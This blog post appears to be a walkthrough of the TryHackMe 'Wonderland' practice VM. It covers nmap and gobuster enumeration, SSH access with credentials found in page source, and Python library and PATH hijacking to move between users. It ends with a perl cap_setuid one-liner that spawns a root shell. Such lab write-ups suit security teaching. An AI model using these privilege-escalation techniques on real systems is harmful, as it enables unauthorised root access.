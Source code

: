 ```yaml
---
layout: post
title: "Wonderland: Try Hack Me Walkthrough"
date: 2020-06-05 20:20:20 +0000
last_modified_at: 2020-06-05 20:20:20 +0000
category: Walkthrough
tags: ["Try Hack Me", Wonderland, Weekly Challenge, Web]
comments: true
image:
  feature: WonderLand/WonderlandFeature_ue4mbd.jpg
  credit: WallpaperCave / WallpaperCave
  creditlink: https://wallpapercave.com/w/wp4684154
---
```


This post documents the complete walkthrough of Wonderland, a weekly vulnerable challenge [VM][1] created by [NinjaJc01][2], and hosted at [Try Hack Me][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Wonderland is a weekly challenge vulnerable VM from Try Hack Me.

## Information Gathering

Let’s start with a `nmap` scan to establish the open ports in the host.

```
# nmap -vv --reason -Pn -sV -sC --version-all -oN /root/Desktop/THM/Wonderland/scans/tcp_nmap.txt 10.10.200.195
...
Nmap scan report for 10.10.200.195
Host is up, received user-set (0.098s latency).
Scanned at 2020-06-05 17:29:02 EDT for 20s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDe20sKMgKSMTnyRTmZhXPxn+xLggGUemXZLJDkaGAkZSMgwM3taNTc8OaEku7BvbOkqoIya4ZI8vLuNdMnESFfB22kMWfkoB0zKCSWzaiOjvdMBw559UkLCZ3bgwDY2RudNYq5YEwtqQMFgeRCC1/rO4h4Hl0YjLJufYOoIbK0EPaClcDPYjp+E1xpbn3kqKMhyWDvfZ2ltU1Et2MkhmtJ6TH2HA+eFdyMEQ5SqX6aASSXM7OoUHwJJmptyr2aNeUXiytv7uwWHkIqk3vVrZBXsyjW4ebxC3v0/Oqd73UWd5epuNbYbBNls06YZDVI8wyZ0eYGKwjtogg5+h82rnWN
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHH2gIouNdIhId0iND9UFQByJZcff2CXQ5Esgx1L96L50cYaArAW3A3YP3VDg4tePrpavcPJC2IDonroSEeGj6M=
|   256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAsWAdr9g04J7Q8aeiWYg03WjPqGVS6aNf/LF+/hMyKh
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Website Analysis

Appears to be some kind of `http` service. Here's how it looks like.

{% include image.html image_alt="WonderLand/WonderlandWebHome_msjm15.jpg" image_src="WonderLand/WonderlandWebHome_msjm15.jpg" %}

First things first we do a `gobuster` scan.

```
gobuster dir -u http://10.10.200.195 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

Once the scan returns we see one result.

{% include image.html image_alt="WonderLand/WonderlandFirstDirb_q46f3m.jpg" image_src="WonderLand/WonderlandFirstDirb_q46f3m.jpg" %}

Going to that page we view the source of the page. We see a comment about following the rabbit.

{% include image.html image_alt="WonderLand/WonderlandFirstPage_elolsj.jpg" image_src="WonderLand/WonderlandFirstPage_elolsj.jpg" %}

We run another `gobuster` from this new directory. This will hopefully show us more of the path.

```
gobuster dir -u http://10.10.200.195/r/ -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

It looks like the scan returns a new directory from this path.

{% include image.html image_alt="WonderLand/WonderlandDirb2_hunewl.jpg" image_src="WonderLand/WonderlandDirb2_hunewl.jpg" %}

Viewing that page returned the same message as before... we try going to /r/a/b/b/i/t

{% include image.html image_alt="WonderLand/WonderLandNewPage_j8nsqk.jpg" image_src="WonderLand/WonderLandNewPage_j8nsqk.jpg" %}

We view the source of this page and it gives us what looks to be some login credentials.

{% include image.html image_alt="WonderLand/WonderLandAliceCreds_xenhos.jpg" image_src="WonderLand/WonderLandAliceCreds_xenhos.jpg" %}

## Exploiting the Box

### Getting `user.txt`

#### Getting Rabbit

```
ssh alice@10.10.200.195
```

Since we have the alice password. We run a sudo -l to see if we can run any commands on the box. We can also get the user flag by doing cat /root/user.txt at this point or grab it with root at the end of the challenge.

{% include image.html image_alt="WonderLand/WonderlandAliceSudo_d5tisn.jpg" image_src="WonderLand/WonderlandAliceSudo_d5tisn.jpg" %}

We see we can run python3.6 as rabbit with a certain python script. We also see in the script it imports random. We can do something called python library hijacking. If we place a random.py file in the same directory when import random runs it will use our python file instead of the random.py library python file.

{% include image.html image_alt="WonderLand/WonderLandAlicePython_q8wxjc.jpg" image_src="WonderLand/WonderLandAlicePython_q8wxjc.jpg" %}


```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py 

```

{% include image.html image_alt="WonderLand/wonderlandrabbitstart_xpwq91.jpg" image_src="WonderLand/wonderlandrabbitstart_xpwq91.jpg" %}

#### Getting madhatter

Now we move over to /home/rabbit. We see a binary called teaTime. When we run it the binary shows the following display.

{% include image.html image_alt="WonderLand/wonderlandrabbitteaparty_ljq5f2.jpg" image_src="WonderLand/wonderlandrabbitteaparty_ljq5f2.jpg" %}

I copied the file back to our system by running: `python3 -m http.server`. We then strings the file on our system and notice it calls date without specifying the path. This means we hijack the path and take over the date binary.

{% include image.html image_alt="WonderLand/WonderlandRabbitStrings_fnnlx3.jpg" image_src="WonderLand/WonderlandRabbitStrings_fnnlx3.jpg" %}

We create the following file with `Vi` on the system as rabbit and do `chmod +x date` on our new file.

{% include image.html image_alt="WonderLand/WonderLandDate_upmv72.jpg" image_src="WonderLand/WonderLandDate_upmv72.jpg" %}

We then change our path by doing `export PATH=/home/rabbit:$PATH` and run the `teaParty` 

{% include image.html image_alt="WonderLand/WonderlandHatterInit_xt813h.jpg" image_src="WonderLand/WonderlandHatterInit_xt813h.jpg" %}

### Getting `root.txt`

We do our standard enumeration using `linpeas` and see that `/usr/bin/perl` has cap_setuid+ep capabilities 

{% include image.html image_alt="WonderLand/WonderLandEnum_oyo70g.jpg" image_src="WonderLand/WonderLandEnum_oyo70g.jpg" %}

```
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

Running this gives us root as perl as setuid privileges so it can execute /bin/bash as root

{% include image.html image_alt="WonderLand/WonderLandRoot_hxhyj2.jpg" image_src="WonderLand/WonderLandRoot_hxhyj2.jpg" %}

Doing this we see our root.txt flag in the Alice directory!

{% include image.html image_alt="WonderLand/WonderlandRootFlag_thkrtu.jpg" image_src="WonderLand/WonderlandRootFlag_thkrtu.jpg" %}

We also can navigate to /root and get our user.txt flag.

{% include image.html image_alt="WonderLand/WonderLandUser_gnpd6i.jpg" image_src="WonderLand/WonderLandUser_gnpd6i.jpg" %}


:dancer:

[1]: https://tryhackme.com/room/wonderland
[2]: https://tryhackme.com/p/NinjaJc01
[3]: https://tryhackme.com
